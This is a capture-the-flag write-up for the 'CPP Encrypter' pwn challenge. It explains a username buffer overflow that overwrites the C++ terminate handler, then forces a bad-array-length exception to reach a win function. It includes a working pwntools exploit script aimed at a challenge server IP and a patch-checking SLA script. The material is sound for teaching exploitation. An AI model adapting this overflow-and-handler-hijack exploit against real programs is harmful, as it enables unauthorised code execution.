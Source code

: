 # Overview

**Challenge Name :** CPP Encrypter

**Author :** @Capang

**Description :** I love C so much that I code a CPP program using C syntax

## Analysis

```c
    puts("\n--- Edit Profile ---");
    printf("Enter new username (leave empty to keep current): ");
    fgets(local_418,0x404,stdin);
```

There is an obvious BOF here because the username is originally of size 256 but its taking in 1028 characters when you try to edit your profile.

![image](https://github.com/user-attachments/assets/f3cac91b-b0ee-42c7-ab91-da2e95044fa3)

After going through the things that we can overwrite, this function looked the most interesting. Judging from its name `terminate handler`, we assumed that if we somehow managed to terminate the program without the traditional way, we can overwrite this handler to point to a function that we want. But which function?

![image](https://github.com/user-attachments/assets/ef2b0b65-3d1c-47ee-8868-d44d2f2ee96e)

After doing abit of going through every single function in the program, you will eventually stumble upon this interesting function. Next step is how to terminate the program in a different way? 

![image](https://github.com/user-attachments/assets/1ee643bd-6c97-4e19-a2d6-55ae51a84b10)

In the encrypt message function, if you give too many messages to encrypt, it will trigger bad array length. So the goal is simple

1. Overwrite terminate handler with the address of the useless function
2. Give a large number to encrypt message and terminate the program

## Solve Script

```py
#!/usr/bin/python
from pwn import *

filepath = './encryption_app'
exe = context.binary = ELF(filepath)

host = "116.203.176.73"
port = 59656

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def create(usr=b"a", pas=b"a"):
  sla(b"choice: ", "1")
  sla(b"username: ", usr) 
  sla(b"password: ", pas)

def login(usr=b"a", pas=b"a"):
  sla(b"choice: ", "2")
  sla(b"Username: ", usr) 
  sla(b"Password: ", pas)

def edit(usr=b"a", pas=b"a"):
  sla(b"choice: ", "3")
  sla(b": ", usr)
  # s(usr)
  sla(b": ", pas)

def encrypt(num, method, msg):
  sla(b"choice: ", "5")
  sla(b"hash? ", str(num))
  sla(b": ", msg)
  sla(b": ", str(method))

# p = exe.process()
# p = remote("localhost", 10002)
p = remote(host,port)

win = 0x401976

create()
login()
payload = b"A" * 0x148
payload += p64(win)

edit(payload)

sla(b"choice: ", "5")
sla(b"hash? ", str(10000000000000000))

p.interactive()
```

![image](https://github.com/user-attachments/assets/108a3920-876b-4681-b223-317915787f21)

> Flag : UMCS{AW3S0ME_3NCRYPT0R_S0LLV33_73bb3661}

## SLA

```py
#!/usr/bin/env python3
"""
Service-health checker for the “Encrypt Messages” huge-array allocation bug.

Return codes:
0 – vulnerable / unpatched
1 – patched
2 – service down
"""
import socket
import sys
import time

# Status codes
UNPATCHED, PATCHED, DOWN = 0, 1, 2

# ======= helpers ============================================================

def recv_until(sock, marker: bytes, timeout=8.0) -> bool:
    """Receive until *marker* appears or timeout expires. Returns True on success."""
    sock.settimeout(timeout)
    data = b""
    try:
        while marker not in data:
            chunk = sock.recv(1024)
            if not chunk:
                return False          # connection closed
            data += chunk
        print(data)
        return True
    except (socket.timeout, ConnectionResetError):
        return False

def send_line(sock, line: str):
    sock.sendall(line.encode() + b"\n")

# ======= main check =========================================================

def run_check(host: str, port: int) -> int:
    try:
        s = socket.create_connection((host, port), timeout=3)
    except (socket.timeout, ConnectionRefusedError):
        return DOWN

    try:
        # Step 1: Create account
        if not recv_until(s, b"Enter choice: "):
            print(82)
            return DOWN
        send_line(s, "1")  # menu → Create Account
        print("creating account")

        if not recv_until(s, b"Enter username: "):
            print(222)
            return DOWN
        send_line(s, "t")  # 1-byte username keeps parsing simple

        if not recv_until(s, b"Enter password: "):
            return DOWN
        send_line(s, "t")
        print("created account")

        # Wait for success banner and next menu
        if not recv_until(s, b"Enter choice: "):
            return DOWN
        print("yes no?")

        # Step 2: Log in
        send_line(s, "2")
        if not recv_until(s, b"Username: "):
            return DOWN
        send_line(s, "t")
        if not recv_until(s, b"Password: "):
            return DOWN
        send_line(s, "t")
        if not recv_until(s, b"Login successful!\n"):
            return DOWN

        # print("login success")
        if not recv_until(s, b"Enter choice: "):
            return DOWN

        print("yes no?")

        # Step 3: Trigger the bug in “Encrypt Messages”
        send_line(s, "5")
        if not recv_until(s, b"How many messages to hash? "):
            return DOWN
        huge = "500000000000000000000"
        send_line(s, huge)
        print("sent big")

        # If the service is patched, it should send an error message **and**
        # return to the menu within a short window.
        patched_response = recv_until(s, b"Enter choice:", timeout=2)
    
        if patched_response:
            return PATCHED  # still alive → patched
        else:
            # Connection may already be dead; double-check with a tiny pause
            time.sleep(0.5)
            try:
                s.send(b"PING\n")
            except Exception:
                return UNPATCHED        # crashed → vulnerable
            return UNPATCHED            # still up but ignored us → treat as vuln
    finally:
        try:
            s.close()
        except Exception:
            pass

# ======= entry-point ========================================================

if __name__ == "__main__":
    host = sys.argv[1] if len(sys.argv) > 1 else "localhost"
    port = int(sys.argv[2]) if len(sys.argv) > 2 else 10102

    status = run_check(host, port)
    print(status)
    sys.exit(status)
```

The SLA script checks if you still are able to send a big number as the array length. There are probably many ways to patch this so I'll just leave it up to you guys to find out :D
